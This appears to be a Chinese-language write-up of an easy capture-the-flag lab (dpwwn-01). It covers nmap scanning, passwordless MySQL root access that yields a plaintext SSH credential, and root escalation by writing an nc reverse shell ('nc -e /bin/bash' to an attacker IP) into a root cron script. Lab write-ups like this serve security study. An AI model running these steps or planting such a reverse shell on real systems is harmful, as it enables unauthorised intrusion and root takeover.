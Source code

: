 ## 靶机信息
- 级别:容易
- 目标：获得root权限，获取/root目录下dpwwn-01-FLAG.txt的内容。
- 注意：在 VMware 工作站 14 上测试。

## Recon
### nmap
```shell
nmap -sn 192.168.1.0/24
//IP:192.168.1.150

sudo nmap -sT --min-rate 10000 -p- 192.168.1.150 -oA tcp_scan/ports
//Ports:
PORT     STATE SERVICE                                                        │
22/tcp   open  ssh                                                            │
80/tcp   open  http                                                           │
3306/tcp open  mysql
```

## Web
![[Pasted image 20231012143558.png]]
打开是一个展示页.
找了半天，web几乎没有什么内容

## MySQL
### 弱密码
```shell
mysql -h 192.168.1.150 -uroot //出现错误 重启靶机即可
//在ssh库的users表中得到凭证
 1 | mistic   | testP@$$swordmistic 
```

## 提权

### 自动任务提权
```shell
cat /etc/crontab 
*/3 *  * * *  root  /home/mistic/logrot.sh

写入反弹shell在logrot.sh
nc -e /bin/bash 192.168.1.136 1234
//等待三分钟即可
```

![[Pasted image 20231012155004.png]]


